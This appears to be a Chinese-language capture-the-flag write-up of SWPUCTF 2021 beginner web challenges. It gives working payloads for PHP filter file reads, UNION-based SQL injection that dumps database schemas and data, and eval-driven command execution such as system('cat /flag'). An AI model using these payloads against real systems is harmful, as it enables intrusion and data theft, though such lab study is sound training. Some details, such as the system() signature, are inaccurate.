 1.[SWPUCTF 2021 新生赛]gift_F12
F12


2.[SWPUCTF 2021 新生赛]jicao

playload:

```
GET: /?json{"x":"wllm"}
POST: id=wllmNB
```



3.[SWPUCTF 2021 新生赛]easy_md5

观察代码，要求使用GET请求获得name，用POST请求获得password，并且要使得输入的name和password的MD5的值也要相同

如果两个字符经MD5加密后的值为 0exxxxx形式，就会被认为是科学计数法，且表示的是0*10的xxxx次方，还是零，都是相等的，所以只要寻找这样的字符就好了


4.[SWPUCTF 2021 新生赛]include

进入环境提示传入一个file，传入/?file=1,显示出源代码，通过阅读源代码

![1742635374226](image/NSS/1742635374226.png)

我们可以看到我们可以通过get方法上传file，并且没有检查过滤，并且file还可以传给include_once函数，此函数的作用会包含我们指定的文件，若文件内容是php代码则会执行

php伪协议：php://filter会对数据流进行过滤和处理

我们要查看flag.php中的flag并且不能让php代码执行，所以要将flag.php中的内容base64编码再读,然后将读到的base64编码还原得到flag

playload：

```
/?file=php://filter/read/convert.base64_encode/resource=flag.php
```

5:[SWPUCTF 2021 新生赛]easy_sql

学习了一遍数据库的基本操作，由于我的操作系统是arch，所以使用了MariaDB来练习，将MariaDB连接vscode进行练习。

首先F12查看源代码，注释里面表明参数是wllm，先尝试一下 `/?wllm=1`,显示如下

![1742661145810](image/NSS/1742661145810.png)

题目说是sql注入，尝试一下 `/?wllm=1'`,显示报错可以尝试注入

首先判断有多少列

```
/?wllm=1' order by 1 --+
/?wllm=1' order by 2 --+
/?wllm=1' order by 3 --+
/?wllm=1' order by 4 --+
```

当尝试到4时会出现报错，所以得出只有3列

![1742661805219](image/NSS/1742661805219.png)

然后进行查询每行分别是什么

```
/?wllm=-1' union select 1,2,3 --+
```

得到

Your Login name:2
Your Password:3

所以第二列是name，第三列是password

尝试查询所在的数据库名称,database()会返回默认的数据库，然后通过union select 回显出来

```
/?wllm=-1' union select 1, 2, database() --+
```

得到数据库名称test_db

然后查询此数据库中有哪些表

使用group_concat(table_name),是一个聚合函数可以将多行中的table_name列的值连接成为一个字符串以逗号分隔

FROM information_schema.tables

information_schema.tables是 MySQL 的一个系统表，存储了数据库中所有表的元数据信息，包括表名、表类型、创建时间等

WHERE table_schema='test_db'

table_schema这是 `information_schema.tables` 表中的一个列，表示表所属的数据库名称

**`'test_db'`** ：这是你想要查询的数据库名称。这里过滤出属于 `test_db` 数据库的所有表。

```
?wllm=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='test_db'--+
```

![1742662788002](image/NSS/1742662788002.png)

得到两个表test_tb,users

用类似的方法查询两个表中的字段

```
?wllm=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='test_db'--+
?wllm=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='users'--+
```

在test_tb找到flag

![1742664042055](image/NSS/1742664042055.png)

查询test_tb中的flag

```
/?wllm=-1' union select 1, 2, flag from test_tb --+
```

![1742664382585](image/NSS/1742664382585.png)

补充：


5.[SWPUCTF 2021 新生赛]easyrce

题目介绍是rec漏洞，rec为远程代码执行漏洞，观察代码可以得到

![1742827765701](image/NSS/1742827765701.png)

是eval函数导致的，eval函数会直接运行代码，所以我们尝试通过输入url参数产看根目录下有什么

```
/?url=system("ls /");
```

通过ls命令我们得到了

![1742828658284](image/NSS/1742828658284.png)

然后通过cat命令查看了flllllaaaaaaggggggg文件，得到flag

```
/?url=system("cat /flllllaaaaaaggggggg");
```

system()
system() 是 PHP 中⽤于执⾏外部程序并显⽰输出的⼀个函数。这个函数接受⼀个字符串
参数，该参数是要执⾏的命令，然后在 Web 服务器上执⾏这个命令。
基本语法：

```
system(string command, int &command, int &return_var);
```

$command : 要执⾏的命令。
&$return_var （可选）：此变量将填充执⾏命令后的返回状态。

需要注意的是，使⽤ system() 或其他⽤于执⾏外部命令的函数时必须⾮常⼩⼼，特别是
当命令中包含⽤户提供的数据时。否则，你的应⽤程序将容易受到命令注⼊攻击。
